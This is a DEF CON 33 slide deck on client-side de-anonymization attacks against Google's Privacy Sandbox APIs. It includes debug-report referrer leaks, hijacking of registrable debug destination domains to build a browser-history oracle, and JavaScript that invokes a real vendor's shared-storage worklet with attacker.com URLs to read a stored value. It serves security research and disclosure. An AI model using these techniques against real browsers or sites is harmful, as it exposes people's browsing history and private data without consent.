<!-- _class: title -->

# Escaping the Privacy Sandbox

## with Client-Side Deanonymization Attacks

**DEF CON 33**
Eugene "Spaceraccoon" Lim

---

# About Me

**Eugene "Spaceraccoon" Lim**

Focus areas:
- **Appsec** — application security research
- **Vulnerability research** — finding bugs that matter
- _"Why would you connect that to the internet???"_

spaceraccoon.dev · @spaceraccoon

---

# The End of an Era: Cookies Cancelled?

> "Soon" is doing a lot of heavy lifting…

- 🚫 Browsers beginning to **block third-party cookies by default**
- ⚖️ Privacy laws and regulations **restricting third-party cookie tracking**
- 🛡️ Browser- and network-level **ad blocking** on the rise

---

# The Elephant in the Room

<br>

> **Google recently announced they are pausing the deprecation of third-party cookies.**

---

# So Why Do We Still Care?



---

# Unpacking Google's Privacy Sandbox



---

# Agenda

- **Attribution Reporting API**
  - Leaking information with debug reports
  - Browser history stealing via side-channels

- **Shared Storage API**
  - Leaking private data from insecure worklets

- **Conclusion + Q&A**

---

<!-- _class: section-divider -->

# The Attribution Reporting API

---

# What is the Attribution Reporting API?

Privacy Sandbox API for **conversion tracking** without third-party cookies.

> *Did a user who viewed an ad on Site A later perform an action (like a purchase) on Site B?*

- Operates entirely **client-side**
- Three parties: **Publisher**, **Browser**, **Adtech Server**

---

# Step 1: Registering a Source



_Interaction can be navigation- or event-based via `attributionsrc` / JS `attributionSrc`_

---

# Step 1: Source Registration (HTTP)

```http
GET /pagead/ar-adview/?nrh={...} HTTP/2
Host: www.googleadservices.com
Cookie: ar_debug=1
Attribution-Reporting-Eligible: trigger;navigation-source, event-source

HTTP/2 200 OK
Attribution-Reporting-Register-Source: {
  "aggregation_keys": { "1": "0x6e1f4587619636cb...", ... },
  "debug_key": "3343088426263375305",
  "debug_reporting": true,
  "destination": "https://spaceraccoon.dev",
  "expiry": "2592000",
  "source_event_id": "9565824793031098609"
}
Set-Cookie: ar_debug=1; Secure; HttpOnly; SameSite=none
```

---

# Step 2: Registering a Trigger



---

# Step 2: Trigger Registration (HTTP)

```http
GET /pagead/conversion/16766202842/?... HTTP/2
Host: www.googleadservices.com
Attribution-Reporting-Eligible: trigger, event-source;navigation-source
Referer: https://spaceraccoon.dev

HTTP/2 200 OK
Attribution-Reporting-Register-Trigger: {
  "aggregatable_trigger_data": [
    { "filters": { "22": ["true"], "6": ["true"] },
      "key_piece": "0x4a2e673f6d1e4e87",
      "source_keys": ["6"] },
    ...
  ]
}
```

---

# Step 3: Generating Reports



Other data used to confirm a match:
- `trigger_data` — specify trigger event
- `filters` — narrow down conversions
- `max_event_level_reports` / `trigger_data_matching`

Reports can be **event-level** or **summary** reports.

---

# Step 3: Report Generation (HTTP)

```http
POST /.well-known/attribution-reporting/report-event-attribution HTTP/2
Host: ad.doubleclick.net
Content-Type: application/json

{
  "attribution_destination": ["https://spaceraccoon.dev"],
  "randomized_trigger_rate": 0.0001272,
  "report_id": "8b750c76-62c9-487b-8bab-4e9b8c7a9599",
  "scheduled_report_time": "1742262266",
  "source_event_id": "7269729236833329074",
  "source_type": "navigation",
  "trigger_data": "7"
}
```

---

# Intended Privacy Protections

| Protection | Mechanism |
|---|---|
| 🎲 **Random** | Randomized reporting delays obscure exact conversion time |
| 📊 **Limited** | Only small amounts of data can be sent per report |
| 📡 **Noisy** | Noise added to prevent deanonymization of individuals |

<br>

> Seems pretty solid, right? **Let's break it.**

---

<!-- _class: section-divider -->

# ⚠️ Attack #1
## Leaky Debugging Reports

---

# Attack #1: Leaky Debugging Reports

- Privacy Sandbox has a **transitional debug report** feature
- Sends verbose debug reports to the reporting origin
- Enabled via `ar_debug=1` cookie
- Can be triggered deliberately by failures in attribution registrations
- Debug reports include **`source_site`** or **`context_site`** values

> Remember when third-party cookies were supposed to be deprecated *soon*?

---

# Debug Report: Referrer Leak

```php
<?php header("Referrer-Policy: no-referrer"); ?>

```

```http
POST /.well-known/attribution-reporting/debug/verbose HTTP/2
Host: simeola.com

[{ "body": {
    "attribution_destination": ["https://destination.com"],
    "source_site": "https://publishersite.com"
   },
   "type": "source-success"
}]
```

**Leaks referrer site despite `no-referrer` policy via debug report!**

---

# SafeFrame Referrer Leak



Header-error debug reports can be **deliberately triggered** with malformed attribution data + `Attribution-Reporting-Info: report-header-errors`, causing the report to leak `context_site: acmenews.com`.

---

# SafeFrame Attack Flow



---

# How Facebook Ads Sandbox Prevents It

```http
Permissions-Policy: accelerometer=(),
  attribution-reporting=(),
  bluetooth=(),
  camera=(),
  ch-device-memory=(),
  ch-downlink=(),
  ...
Document-Policy: force-load-at-top
```

**Fix: disable `attribution-reporting` entirely via `Permissions-Policy`.**

---

<!-- _class: section-divider -->

# ⚠️ Attack #2
## Destination Hijacking

---

# Attack #2: Destination Hijacking

- Attribution API allows **more than 1 destination** during source registration
- While auditing DoubleClick ad implementations, I found 2 strange debug destinations added to **every** source registration:
  - `debugconversiondomain1.com`
  - `debugconversiondomain2.com`

> **Were these debugging domains available to register?**

---

# The Debug Domains Were Available

```
✓  debugconversiondomain1.com    $10.44    [Purchase]
```

<br>

# 🔴 SOLD

---

# Okay… I Can Commit Ad Click Fraud. So What?



---

# The Storage Limit Oracle

**Rate limits** prevent abuse and slow data gathering on individuals.

The browser has an **undocumented storage limit** for event-level reports per destination.



> The error itself is our oracle.

---

# Oracle: User **Visits** advertiser.com



---

# Oracle: User **Doesn't Visit** advertiser.com



---

# De-Anonymization Achieved

If attacker receives only **999 reports** before hitting the rate limit:

> The queue was already filled by **one prior report**.

**Conclusion:** The user must have previously visited `advertiser.com`.

✅ Successfully de-anonymized browser history — **without placing an ad or being part of the original transaction**.

---

<!-- _class: section-divider -->

# The Shared Storage API

---

# What is the Shared Storage API?

Privacy Sandbox API for **cross-site storage access** in a privacy-preserving way.



**Use case:** Store a user's interest group (e.g. `cat-lover`) and use it to select relevant ads across different sites — without exposing the raw value cross-site.

---

# Step 1: Shared Storage → Worklet

```javascript
// Site A stores a value
window.sharedStorage
  .set("ab-testing-group", "0")
  .then(console.log("Value saved to shared storage"));

// Load a worklet that can read from shared storage
await window.sharedStorage.worklet.addModule("ab-testing-worklet.js");
```

```html
<fencedframe id="content-slot"></fencedframe>
```

The worklet runs in an **isolated context** — it can read storage but cannot expose the value directly to the page.

---

# Step 2: Worklet → Fenced Frame

```javascript
const fencedFrameConfig = await window.sharedStorage.selectURL(
  "ab-testing",
  [
    { url: "https://example.com/default-content.html" },
    { url: "https://example.com/experiment-content-a.html" },
  ],
  { resolveToConfig: true }
);
document.getElementById("content-slot").config = fencedFrameConfig;
```

The selected URL index is an **output gate** — the value never leaves the worklet directly.

---

<!-- _class: section-divider -->

# ⚠️ Attack #3
## Insecure Cross-Site Worklets

---

# Attack #3: Insecure Cross-Site Worklets

Worklets support `dataOrigin: "script-origin"` — any site can load a third-party worklet and **access that third party's shared storage**.

> So make sure the worklet script is secure…

**Finding:** `fledge.criteo.com` exposes a public worklet that reads an A/B test value from Criteo's shared storage. Any attacker can invoke it and **infer the stored value** from which URL gets selected.

---

# fledge.criteo.com Worklet (Vulnerable)

```javascript
class SelectURLOperation {
  async run(urls, data) {
    var r = Math.floor(8 * Math.random()).toString();
    // only sets if not already present — so Criteo's existing value persists
    await sharedStorage.set("chrome_abt_pop", r, { ignoreIfPresent: true });
    let a = await sharedStorage.get("chrome_abt_pop");
    return urls.map(url => url.split("?")[0])
               .findIndex(url => url.endsWith(a)); // returns index → leaks value
  }
}
register("select-abt-url", SelectURLOperation);
```

---

# Exploiting the Worklet

```javascript
const selectAbtWorklet = await window.sharedStorage.createWorklet(
  "https://fledge.criteo.com/interest-group/abt/worklet",
  { dataOrigin: "script-origin" }  // ← access Criteo's shared storage
);

var config = await selectAbtWorklet.selectURL('select-abt-url', [
  { url: 'https://attacker.com/frame.php#0' },
  { url: 'https://attacker.com/frame.php#1' },
  // ...up to #7
], { resolveToConfig: true });

document.getElementById("content-slot").config = config;
// Which #fragment loads reveals chrome_abt_pop ∈ {0..7}
```

**Any website can read Criteo's `chrome_abt_pop` from private Shared Storage.**

---

# Summary of Attacks

| # | API | Attack | Impact |
|---|-----|--------|--------|
| 1a | Attribution | Debug report leaks referrer despite `no-referrer` | Publisher site exposure |
| 1b | Attribution | SafeFrame site leak via deliberate header errors | Publisher site exposure |
| 2 | Attribution | Destination hijacking + storage limit oracle | Browser history de-anonymization |
| 3 | Shared Storage | Insecure cross-site worklet invocation | Private data exfiltration |

---

# The Bigger Picture

**Privacy-preserving adtech is hard.**

- Despite creators' best efforts, privacy/security implications of certain features are **not fully understood**
- The **attack surface is large and unexplored**
- The web has a long history of **hardening new features only after they are deployed and attacked**

---

# There's Still More to Do…

| Layer | Unexplored APIs |
|---|---|
| **Client-side APIs** | Topics API, Protected Audience API, Private Aggregation API |
| **Aggregation Service** | Trusted Execution Environments |
| **Enrollment** | Attestations, Trusted origins |

---

<!-- _class: title -->

# Escaping the Privacy Sandbox

## with Client-Side Deanonymization Attacks

**DEF CON 33** · Eugene "Spaceraccoon" Lim

spaceraccoon.dev · @spaceraccoon

_Book signing! Swag! Stickers!_
